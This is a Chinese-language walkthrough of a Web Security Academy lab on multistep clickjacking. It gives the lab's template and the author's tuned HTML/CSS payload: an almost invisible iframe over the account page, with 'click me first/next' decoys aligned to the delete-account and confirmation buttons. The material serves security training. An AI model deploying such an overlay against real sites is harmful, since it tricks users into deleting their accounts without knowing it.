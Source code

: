 
> 
<h3>实验5：多步点击劫持</h3>
信息：
1、本实验包含一些受CSRF令牌保护的帐户功能，还包含一个确认对话框，用于防止点击劫持
2、解决实验：设计一个攻击，通过单击“先单击我”和“下一步单击我”诱饵操作，诱骗用户单击删除帐户按钮和确认对话框（需要使用两个元素）
3、已有账号：wiener:peter
<hr/>
part1:
登录账号
转到利用漏洞攻击服务器，对模板进行以下调整：
1、将YOUR-LAB-ID替换为自己实验室ID，以便URL指向目标网站的用户帐户页面<br/> 2、用合适的像素值替换iframe的$height_value和$width_value变量（建议分别为700 px和500 px）。<br/> 3、用合适的像素值替换诱饵网页内容的$top_value和$side_value变量，以便"删除帐户"按钮和"先测试我"诱饵操作对齐（分别为330px和50px）
4、为$top_value2和$side_value2变量替换一个合适的值，以便"Testmenext"诱饵操作与确认页面上的"Yes"按钮对齐（我们建议分别为285px和225px）<br/> 5、设置不透明度值$opacity以确保目标iframe是透明的。最初，使用0.1的不透明度，以便可以对齐iframe操作并根据需要调整位置值。对于提交的攻击，值0.0001将起作用
<pre><code>&lt;style&gt;
	iframe {
		position:relative;
		width:$width_value;
		height: $height_value;
		opacity: $opacity;
		z-index: 2;
	}
   .firstClick, .secondClick {
		position:absolute;
		top:$top_value;
		left:$side_value;
		z-index: 1;
	}
   .secondClick {
		top:$top_value2;
		left:$side_value2;
	}
&lt;/style&gt;
&lt;div class="firstClick"&gt;Test me first&lt;/div&gt;
&lt;div class="secondClick"&gt;Test me next&lt;/div&gt;
&lt;iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"&gt;&lt;/iframe&gt;

我的是：
&lt;style&gt;
	iframe {
		position:relative;
		width:500px;
		height: 700px;
		opacity: 0.0001;
		z-index: 2;
	}
   .firstClick, .secondClick {
		position:absolute;
		top:500px;
		left:50px;
		z-index: 1;
	}
   .secondClick {
		top:290px;
		left:215px;
	}
&lt;/style&gt;
&lt;div class="firstClick"&gt;click me first&lt;/div&gt;
&lt;div class="secondClick"&gt;click me next&lt;/div&gt;
&lt;iframe src="https://0a3d009e04f7083bc0ac0e680046002a.web-security-academy.net/my-account"&gt;&lt;/iframe&gt;</code></pre>
<hr/>